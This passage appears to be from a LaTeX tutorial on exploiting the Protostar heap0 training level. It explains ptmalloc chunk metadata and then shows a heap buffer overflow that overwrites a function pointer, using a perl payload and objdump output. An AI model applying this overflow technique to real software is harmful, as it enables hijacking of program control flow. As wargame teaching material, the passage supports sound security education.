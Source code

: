 Here, we pause execution directly after the \texttt{printf} on line 34.
This way, we can easily examine the state of our allocated chunks
after they've been set up, noticing an important difference. As these
chunks are dynamically allocated, the dlmalloc/ptmalloc algorithms
require some metadata in order to manage these chunks efficiently.
To truly understand heap exploitation, you have to understand the algorithm
of the heap you are attacking. For this example, we don't necessarily
have to understand much, but this is a perfect opportunity to point out the
some of the important parts.

First, notice that we're told that our first heap structure, \texttt{d},
is located at \texttt{0x0804a008}. For all the programmer cares, this is
true. Their 64-character buffer does indeed start at \texttt{0x0804a008}.
However, within dlmalloc/ptmalloc, this chunck actually begins at 
\texttt{0x0804a000}. This is because of the \texttt{prev\_size} and
\texttt{size} fields at the beginning of each chunk which store
metadata required by dlmalloc/ptmalloc. As \texttt{prev\_size} is
not technically used on allocated chunks, these are zero.

Notice that the 4-byte int at \texttt{0x0804a004} is \texttt{0x49}.
Because of various reasons, the lowest 3
bits of \texttt{size} are used as status flags, so this actually
says that the current chunk's size is \texttt{0x48} (72) bytes, and
that the previous chunk is in use. Likewise, the function
pointer \texttt{fp} is located at the chunk beginning at
\texttt{0x0804a048}, which has a \texttt{size} of \texttt{0x11},
telling us this chunk is 16 bytes, and that the previous chunk is in use. \\

Turning away from heap internals and back towards the situation at hand,
this is a straightforward buffer overflow, much like the stack ones we've
already discussed. Since we want to change \texttt{fp} to point to
\texttt{winner} instead of \texttt{nowinner}, we can simply place that
address in the function pointer.

\begin{lstlisting}
user@protostar:~/heap/heap0$ objdump -t /opt/protostar/bin/heap0 | grep winner
08048464 g     F .text  00000014              winner
08048478 g     F .text  00000014              nowinner
user@protostar:~/heap/heap0$ cat do_heap0 && ./do_heap0
/opt/protostar/bin/heap0 `perl -e '$buf = "A"x72; print $buf."\x64\x84\x04\x08"'`
data is at 0x804a008, fp is at 0x804a050
level passed
\end{lstlisting}

